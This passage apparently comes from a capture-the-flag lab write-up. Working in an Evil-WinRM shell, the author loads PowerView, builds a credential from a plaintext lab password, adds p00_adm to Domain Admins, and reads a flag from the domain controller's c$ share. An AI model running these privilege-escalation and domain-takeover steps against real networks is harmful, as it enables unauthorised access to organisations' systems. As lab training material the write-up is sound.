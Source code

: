 So now I can use p00_adm's account and add it to the Domain Admins
group. I'll upload `PowerView.ps1` and import it:



    *Evil-WinRM* PS C:\programdata> upload PowerView.ps1
    Info: Uploading PowerView.ps1 to C:\programdata\PowerView.ps1

                                                                 
    Data: 1027244 bytes of 1027244 bytes copied

    Info: Upload successful!

    *Evil-WinRM* PS C:\programdata> Import-Module .\PowerView.ps1



Now I'll create a `PSCredential` object, and then add p00_adm to Domain
Admins:



    *Evil-WinRM* PS C:\programdata> $pass = ConvertTo-SecureString 'ZQ!5t4r' -AsPlainText -Force
    *Evil-WinRM* PS C:\programdata> $cred = New-Object System.Management.Automation.PSCredential('intranet.poo\p00_adm', $pass)
    *Evil-WinRM* PS C:\programdata> Add-DomainGroupMember -Identity 'Domain Admins' -Members 'p00_adm' -Credential $cred



### Grab Flag

As p00_adm is now a domain admin, it to access the `c$` share on the DC:



    *Evil-WinRM* PS C:\programdata> net use \\DC.intranet.poo\c$ /u:intranet.poo\p00_adm 'ZQ!5t4r'
    The command completed successfully.

    *Evil-WinRM* PS C:\programdata> dir \\DC.intranet.poo\c$\users\


        Directory: \\DC.intranet.poo\c$\users


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        3/15/2018   1:20 AM                Administrator
    d-----        3/15/2018  12:38 AM                mr3ks
    d-r---       11/21/2016   3:24 AM                Public



Now I can grab the flag, which I find on mr3ks' desktop:



    *Evil-WinRM* PS C:\programdata> type \\DC.intranet.poo\c$\users\mr3ks\desktop\flag.txt
    POO{1196ef8b************************}



I could also do the same thing using PowerShell `Invoke-Command`:



    *Evil-WinRM* PS C:\programdata> invoke-command -computername dc -scriptblock { dir C:\users\mr3ks\desktop } -credential $cred
